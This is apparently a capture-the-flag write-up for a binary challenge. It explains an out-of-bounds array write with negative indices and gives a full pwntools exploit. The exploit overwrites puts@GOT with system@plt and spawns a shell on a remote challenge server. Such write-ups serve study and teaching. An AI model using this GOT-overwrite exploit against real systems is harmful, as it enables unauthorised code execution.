```objdump -R chal | grep ' puts@'``` confirms ```0000000000404020 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5```, ```objdump -d chal | grep '<system@plt>'``` confirms ```00000000004010f0 <system@plt>:```

because ```values``` is ```int values[SIZE]```, so the write target becomes ```write_addr=&values[0]+4⋅idx```. now we just resolve at what index to point what, bear with my drawings

![variable(assets/draw.png)

therefore, the final plan is :
1. write command string "sh\0" to ```values[0]``` at 0x4040c0 as little endian 32 bit int ```0x00006873``` = ```26739```, overwrite ```msg``` pointer to point to ```0x4040c0```, writing ```4211904``` at index -22 (see above), hijack ```puts@GOT``` to point to ```system@plt``` at index -40, exit loop with index -1 to pop shell 

```python
from pwn import *

elf = ELF('./chal')
context.binary = elf

#p = process('./chal')
p = remote("34.84.25.24", 58554)

values_addr = 0x4040c0
msg_ptr_addr = 0x404068
puts_got = 0x404020
system_plt = 0x4010f0

msg_offset = (msg_ptr_addr - values_addr) // 4  # -22
puts_offset = (puts_got - values_addr) // 4     # -40

sh_value = u32(b"sh\x00\x00")  # 26739
p.sendlineafter(b'> ', b'0')
p.sendlineafter(b'> ', str(sh_value).encode())
p.sendlineafter(b'> ', str(msg_offset).encode())
p.sendlineafter(b'> ', str(values_addr).encode())
p.sendlineafter(b'> ', str(puts_offset).encode())
p.sendlineafter(b'> ', str(system_plt).encode())
p.sendlineafter(b'> ', b'-1')

p.interactive()
```




